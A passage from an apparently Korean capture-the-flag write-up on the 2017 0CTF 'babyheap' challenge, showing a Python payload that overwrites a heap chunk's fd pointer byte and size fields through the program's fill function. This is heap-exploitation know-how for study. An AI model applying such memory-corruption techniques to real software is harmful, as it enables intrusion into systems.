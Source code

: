 이게 실행되면 아래처럼 나와요.

{: refdef: style="text-align: center;"}
![memory_01](/img/2017_0ctf/babyheap/14.png)
{: refdef}

`1_fd`가 `2`를 가르키는데 `func_fill`함수를 사용해서 `0x40` 부분만 `0x80`으로 슬쩍 바꿔주면 돼요.

바꾸는 김에 `4_size`도 비꿔줄게요.

```python
payload = "\x00"*0x18 # 0_buf
payload += p64(0x21) # 1_size
payload += "\x80"
func_fill(0, payload)

payload = "\x00"*0x18 # 3_buf
payload += p64(0x21) # 4_size
func_fill(3, payload)
```

{: refdef: style="text-align: center;"}
![memory_02](/img/2017_0ctf/babyheap/15.png)
{: refdef}

